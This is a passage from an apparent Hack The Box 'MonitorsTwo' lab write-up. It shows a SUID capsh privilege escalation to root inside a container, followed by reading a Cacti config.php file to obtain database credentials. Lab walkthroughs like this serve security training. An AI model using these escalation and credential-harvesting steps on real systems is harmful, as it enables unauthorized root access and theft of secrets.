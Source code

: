 ![htb_monitors2_gtfo.png](../assets/monitorstwo_assets/htb_monitors2_gtfo.png)

Lets give it a shot:

```
www-data@50bca5e748b0:/tmp$ cd /sbin
cd /sbin
www-data@50bca5e748b0:/sbin$ ./capsh --gid=0 --uid=0 --
./capsh --gid=0 --uid=0 --
whoami
root
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
/bin/bash
/usr/bin/script -qc /bin/bash /dev/null
root@50bca5e748b0:/sbin# 

root@50bca5e748b0:/sbin# 
```

Nice, that worked!

Now that we are root we can access config files in `/var/www/html/include` where we discover DB credentials:

```
root@50bca5e748b0:/var/www/html/include# cat config.php
<SNIP>
╔$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```
